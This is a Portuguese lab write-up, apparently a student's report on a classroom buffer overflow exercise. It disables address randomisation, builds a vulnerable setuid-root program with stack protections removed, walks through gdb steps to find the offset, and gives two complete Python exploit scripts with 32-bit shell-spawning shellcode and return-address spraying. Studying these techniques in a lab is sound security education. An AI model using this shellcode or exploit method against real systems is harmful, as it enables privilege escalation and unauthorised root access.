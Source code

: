 ## Buffer Overflow

### Environment Setup 

Numa fase introdutoria, e para seguirmos as instruções dadas no guião, desligamos algumas proteções do Sistema Operativo, como por exemplo a randomização do espaço de endereços e a proibição ao nível da shell de ser executada por processos com Set-UID.
Esta etapa foi concluida com os seguintes comandos 
```c
$ sudo sysctl -w kernel.randomize_va_space=0
$ sudo ln -sf /bin/zsh /bin/sh
```

### Getting familiar with the shellcode 

Nesta fase, ainda introdutoria, foi executado um programa simples que abre a shellcode a partir da utilização do comando execve:

```c
char *name[2];
name[0] = "/bin/sh";
name[1] = NULL;
execve(name[0], name, NULL);
```
Este codigo foi testado para 32 e 64 bits. E em ambos os casos a shellcode abriu.

### Understanding the The Vulnerable Program 

Nesta etapa deparamo-nos com o problema que esta relacionado com este Lab, o bufferoverflow. Este bufferoverflow ocorre na função strcpy() visto que não é capaz de verificar os limites do buffer. Este buffer tem um limite de 100 bytes no entanto o array pode conter ate 517 bytes.

Para iniciarmos a exploração da vulnerabilidade realizamos os seguintes comandos: 

```c
$ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
```

### LaunchingAttackon32-bitProgram(Level1)

Numa primeira fase da exploração da vulnerabilidade é necessario criar um ficheiro vazio com o nome badfile. De seguida iniciamos o nosso programa stack-L1-dbg em modo debug e definimos um breakpoint na função bof. A partir deste momento estamos aptos para iniciar o debug do nosso programa. Assim que chegarmos á função strcopy() devemos dar print do ebp e do buffer e de seguida da sua diferença para conhecermos o offset.
Tudo isto pode ser realizado com os seguintes comandos: 
```c
touch badfile // Criar o ficheiro badfile vazio
$ gdb stack-L1-dbg // Executar o programa em modo debug
...
gdb-peda$ b bof // Breakpoint na função bof
...
gdb-peda$ run // Executar o programa até chegar ao breakpoint
...
gdb-peda$ next // Avançar algumas intruções até que o registo ebp passe de apontar para a stack frame da função bof(), visto que antes ainda apontava para a stack frame da função que chamou bof()
...
gdb-peda$ p $ebp // Obter o valor de ebp
$1 = (void *) 0xffffcb98
gdb-peda$ p &buffer // Obter o endereço do início do buffer
$2 = (char (*)[100]) 0xffffcb2c
gdb-peda$ p/d 0xffffcb98 - 0xffffcb2c
$3 = 108

```


De seguida compilamos o seguinte ficheiro exploit.py com as seguintes alterações: 

```python3
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
   "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"    #This code is available in the shellcode folder -> 32 bits
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 256             # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    =  0xffffcb2c + 300          # Change this number  # Value of the &buffer + (a little jump) to enter in the area we attack
offset = 112              # Change this number   # Value of the difference between $ebp - $buffer = 108 + 4 = 112 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)

```

A seguir compilamos e corremos da seguinte forma: 

```c
./exploit.py
./stack-L1

```

Tendo obtido o seguinte resultado: 

![img](https://media.discordapp.net/attachments/1153998326274994216/1163450295716679700/acesso_terminal1.png?ex=653f9e86&is=652d2986&hm=efa60c57299bc7f4e1ba2acdf5413ad1bb35861d5f22fce6cd94b4d5ee577dd6&=&width=733&height=458)



### LaunchingAttackwithoutKnowingBufferSize(Level2)

Para esta tarefa, o procedimento acaba por ser muito semelhante ao da tarefa anterior simplesment nao conhecemos o ebp.
Dessa forma corremos os seguintes comandos : 

```c
gdb stack-L2-dbg 
gdb-peda$ b bof
gdb-peda$ run 
gdb-peda$ next
gdb-peda$ p &buffer
$1 = (char (*)[160]) 0xffffcaf0

```

De seguida executamos o seguinte codigo python3:

```python3

#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"        # This code is available in the shellcode folder -> 32 bits
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
#start = 256             # Change this number 
content[517 - len(shellcode):] = shellcode  # Starting at the top of the stack

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcac0 + 400           # Value of the buffer +(little jump) to attack the zone that we want to 
#offset = 0              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address

#Spray the buffer with return address 
for offset in range(50):
	content[offset * L :offset*4 + L] = (ret).to_bytes(L,byteorder='little')  # Spray to have the return address area in more places
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)

```

Para finalizar so temos que correr os seguintes comandos: 
```c
./exploit.py
./stack-L2
```

Tendo obtido acesso total a shellcode ! 
![img](https://cdn.discordapp.com/attachments/1153998326274994216/1163489494360670330/acesso_sudo_terminal_2.png?ex=653fc308&is=652d4e08&hm=4e581f8e67a326afd766dbe763b295e40d54887773f5ae55e44b955f13278333&)
